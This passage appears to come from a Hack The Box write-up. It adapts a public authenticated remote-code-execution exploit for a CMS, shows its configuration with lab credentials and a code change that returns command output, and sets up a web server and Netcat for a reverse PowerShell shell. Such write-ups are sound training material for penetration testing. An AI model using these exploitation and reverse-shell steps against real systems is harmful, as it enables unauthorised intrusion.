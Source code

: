 From earlier, we remember the unauthenticated vulnerabilities for this CMS were limited but there was an [authenticated RCE](https://www.exploit-db.com/exploits/46153) for administrators. The affected version is 7.12.4, the version we currently have admin access to.

Let's modify the configuration on the proof of concept code and specify the command we'd like to execute, our credentials, and the target host URL.

```python
command = "ipconfig"
login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";
```

Let's also remove the bit of code regarding the cookie data and modify the attack portion to return the results of our command. The addition of this section of code should get us what we need:

```python
soup = BeautifulSoup(r4.text, 'html.parser')
output = soup.find(id="result").getText()
print(output)
```  

We'll test our newly weaponized code with an `ipconfig` command.

![](/assets/img/posts/htb/07-2020-2/rce.png)

Success. Our next step will be using this exploit to gain a foothold. We'll grab a [mini-reverse Powershell script](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) and host it on web server that we will use to upload files from. We'll also host the Netcat executable, which we can use to upgrade our dumb shell. We'll modify our files with our IP address and port before getting them on the machine.

```bash
$ mkdir http && cd http
$ sudo python -m SimpleHTTPServer 80
```

Let's start a Netcat listener in preparation as well.
